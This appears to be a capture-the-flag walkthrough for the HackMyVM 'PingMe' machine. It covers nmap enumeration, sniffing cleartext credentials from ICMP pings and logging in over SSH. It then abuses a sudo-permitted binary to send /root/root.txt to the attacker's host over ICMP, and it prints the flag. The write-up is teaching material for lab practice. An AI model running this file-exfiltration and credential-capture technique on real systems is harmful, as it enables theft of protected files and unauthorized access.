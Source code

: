 
# **PingMe || HackMyVM**

***
## **Difficulty : Medium**

![](https://i.imgur.com/JUhKVzd.png)

***


Running our nmap scan we have the below output


```bash
# Nmap 7.94SVN scan initiated Thu Oct 17 20:26:24 2024 as: /usr/lib/nmap/nmap --privileged -p- -T4 -v -sCV -oN nmap.txt 192.168.0.151
Nmap scan report for pingme (192.168.0.151)
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 1f:e7:c0:44:2a:9c:ed:91:ca:dd:46:b7:b3:3f:42:4b (RSA)
|   256 e3:ce:72:cb:50:48:a1:2c:79:94:62:53:8b:61:0d:23 (ECDSA)
|_  256 53:84:2c:86:21:b6:e6:1a:89:97:98:cc:27:00:0c:b0 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Ping test
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:E4:61:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 17 20:26:49 2024 -- 1 IP address (1 host up) scanned in 24.47 seconds
```


Navigating to port 80/HTTP we have the below page, which automatically pings the IP making the request to this site


![](https://i.imgur.com/oLJItSd.png)


Viewing page-source we have some few commented texts.


![](https://i.imgur.com/dBO2OXy.png)



To me this looks like an hint telling us to listen for ICMP echo requests, It is good practice not just to listen but to use the `-A` option to display all data as described [here](https://stackoverflow.com/questions/38342290/how-to-display-all-data-using-tcpdump)


```bash
❯ sudo tcpdump -i wlan0 icmp -A
[sudo] password for sec-fortress: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlan0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Then navigate to the website and refresh the page in which going back to our command lie you should see clear text credentials


![](https://i.imgur.com/6UX5S3u.jpeg)


We have the following credential ; `pinger:P!ngM3`, we can go ahead and try to use this to login via the SSH protocol, which works!!


```bash
❯ ssh pinger@192.168.0.151
The authenticity of host '192.168.0.151 (192.168.0.151)' can't be established.
ED25519 key fingerprint is SHA256:jIHuqj6aE+2blT+6SnkGKkaR7dRiUscb9FAVVG/h9DU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.151' (ED25519) to the list of known hosts.
pinger@192.168.0.151's password: 
Linux pingme 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  5 19:21:06 2022 from 10.0.0.10
pinger@pingme:~$ whoami
pinger
pinger@pingme:~$ hostnamectl
   Static hostname: pingme
         Icon name: computer-vm
           Chassis: vm
        Machine ID: aabb374821d64f88bd7c0f7a62c74a03
           Boot ID: 4e955ff521ce46d9b87087be2b47370a
    Virtualization: oracle
  Operating System: Debian GNU/Linux 11 (bullseye)
            Kernel: Linux 5.10.0-11-amd64
      Architecture: x86-64
pinger@pingme:~$ 
```



Navigating to the `/var/www/html` directory and examining the `index.php` we can see how our user foothold was possible as described in the image below. 


![](https://i.imgur.com/T0r4WZz.png)



Checking for executables our current user can run with the `sudo` command we have the below output


```bash
pinger@pingme:/var/www/html$ sudo -l
Matching Defaults entries for pinger on pingme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinger may run the following commands on pingme:
    (root) NOPASSWD: /usr/local/sbin/sendfilebyping
pinger@pingme:/var/www/html$ 
```


It is possible to read the root flag as this program sends data over the ICMP protocol and it is most likely wouldn't be comfortable getting a reverse shell.


- Start up `tcpdump` listening on the ICMP protocol

```bash
❯ sudo tcpdump -i wlan0 icmp -A
```

- Then execute this command to get the root flag


```bash
pinger@pingme:/var/www/html$ sudo /usr/local/sbin/sendfilebyping 192.168.0.158 /root/root.txt
```


![](https://i.imgur.com/9BL8nDS.jpeg)


> **Note :** The root flag is  in sequence so, H - move to the next line, M - move to the next line, V - move to the next line.....Just like this.




<details>
  <summary>Root Flag Spoiler Warning</summary>
  
HMV{ICMPcanBeAbused}
  
</details>

